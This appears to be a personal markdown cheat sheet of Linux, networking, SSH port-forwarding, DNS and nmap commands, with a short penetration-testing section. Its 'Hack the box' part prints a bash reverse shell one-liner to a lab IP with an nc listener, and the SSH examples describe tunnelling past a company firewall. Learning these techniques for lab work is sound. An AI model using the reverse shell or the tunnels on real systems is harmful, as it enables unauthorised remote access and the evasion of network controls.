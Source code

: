 
### Common commands
```sh
$ hostname                   # show or set system's hostname
$  history | grep netstat    # search the command  history
$ cd -                       # navigate to previous directory
$ Ctrl + A                   # navigate to start of command
$ Ctrl + E                   # navigate to the end of command
$_ shell variable            # in bash, is the last argument given to the previous command
!$ shell variable            # in bash, gives the last argument of previous command in the shell history
mkdir -p a/b/c/d/e && cd $_  # create folder and switch to it
$! shell variable            # the PID of the last executed command
du -ch                       # estimate file space usage
su -                         # switch to root user
tar -xvf file.tar            # extract file
```



### Network commands
```sh
$ ifconfig                   # configure/view network interfaces
$ ping -c 5 www.google.com   # ping 5 times
$ arp                        # manipulate the system ARP cache
$ iptables -L -vn            # list iptables rules
$ kill $(lsof -t -i:8080)    # kill any process listening to the port 8080
```


### SSH Port Forwarding

**Local port forwarding:** lets you connect from your local computer to another server.
* **Example1**: you need to connect from your company computer to your home computer,
but the RDP port (3389) is blocked by company firewall 
on the WORK:   ```ssh -L 8181:<home_ip>:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181 (from WORK)


**Reverse Port Forwarding**: Remote port forwarding lets you connect from the remote SSH server to another server.
* **Example1**: you need to connect from your home computer to your  company computer
on the WORK:   ```ssh -R 8181:localhost:3389  <home_ssh_user>@<home_ip>```
then - access RDP connection with localhost:8181  (from HOME)

Good explanation (from https://unix.stackexchange.com/questions/46235/how-does-reverse-ssh-tunneling-work)
* **local: -L Specifies that the given port on the local (client) host is to be forwarded to the given host and port on the remote side.**
```ssh -L sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **local** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from the ```connectToHost``` machine.


* **remote: -R Specifies that the given port on the remote (server) host is to be forwarded to the given host and port on the local side.**
```ssh -R sourcePort:forwardToHost:onPort connectToHost``` means: connect with ssh to ```connectToHost```, and forward all connection attempts to the **remote** ```sourcePort``` to port ```onPort``` on the machine called ```forwardToHost```, which can be reached from your local machine.


**Dynamic Port forwarding**: Dynamic port forwarding turns your SSH client into a SOCKS proxy server.
* **Example1**: on the work machine there is a filter on the port 80 
```ssh -D 8181 <home_ssh_user>@<home_ip>```
the will need to change Chrome setings to point to the created proxy


### Magic bytes
* https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
* Example: 
 ```$ echo "GIF8;" > testfile.file```
 ```$ file testfile.file```   # outputs  **testfile.file: GIF image data**



### Hack the box
https://0x00sec.org/t/my-hackthebox-ctf-methodology-from-fresh-box-to-root/13980

**Bach reverse shell**
* https://github.com/fijimunkii/bash-dev-tcp/blob/master/reverse-shell
Example: ```bash -i >& /dev/tcp/10.10.14.150/9001 0>&1```   plus   ```nc -lvnp 9001``` to listen


### DNS configuration issues

**ping: www.google.com: Temporary failure in name resolution**

* https://stackoverflow.com/questions/53687051/ping-google-com-temporary-failure-in-name-resolution
* https://www.tecmint.com/set-permanent-dns-nameservers-in-ubuntu-debian/
 
    On modern Linux systems that use systemd (system and service manager), the DNS or name resolution services are provided to local applications via the systemd-resolved service. 
    It uses the systemd DNS stub file (**/run/systemd/resolve/stub-resolv.conf**) in the default mode of operation.
    The DNS stub file contains the local stub **127.0.0.53** as the only DNS server.
    
    ```ls -l /etc/resolv.conf``` - you will see that this file is a symlink to the /run/systemd/resolve/stub-resolv.conf file.
    Unfortunately, because the /etc/resolv.conf is indirectly managed by the systemd-resolved service, any changes made manually by a user can not be saved permanently or only last for a while.
    
    Quick fix - just to modify the **/etc/resolv.conf** to 8.8.8.8



## Open VPN server
Install and configure 
* https://interface31.ru/tech_it/2019/10/nastroyka-openvpn-servera-dlya-dostupa-v-internet.html  (russian)

**restart**
```
sudo systemctl stop openvpn@server
sudo systemctl enable openvpn@server.service
sudo systemctl start openvpn@server
```


## Start a python2 web server

 ``` python -m SimpleHTTPServer 80```
 
 
 ## Pen Testing
 * **Target validation** - WHOIS, nslookup, dnsrecon
 * **Finding subdomains** - Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc
 * **Fingerprinting** - nmap, Wappalyzer, BuiltWith, Netcat
 * **Data Breaches** - HaveIBeenPwned and similar
 * **Also** - Nikto, Nessus, Burp Suite, dirbuster, searchsploit, metasploit, 
 * parsing leaked credentials - https://github.com/hmaverickadams/breach-parse

### nmap (press UP key to see the status)
* **TCP**  - SYN - SYN ACK - ACK 
* **nmap** -  SYN - SYN ACK - RST
1. **nmap "ping scan"** - ``` nmap -sn 10.0.2.0/24```  show all the nodes in a network
2. ```nmap -T4 <host>``` - top 1000 widely used ports scanned 
3. ```nmap -T4 -p- <host>``` - all ports scanned 
4. ```nmap -sC -sV -oA output <host>``` - this seems faster 
5. ```nmap -T4 -p22,80,443 <host>``` - selective ports scanned (can add here ```-A``` for more info)
6. ```/usr/share/nmap/scripts``` - nmap usefull scripts (example  ```nmap -p443 --script=ssl-enum-ciphers utm.md```)


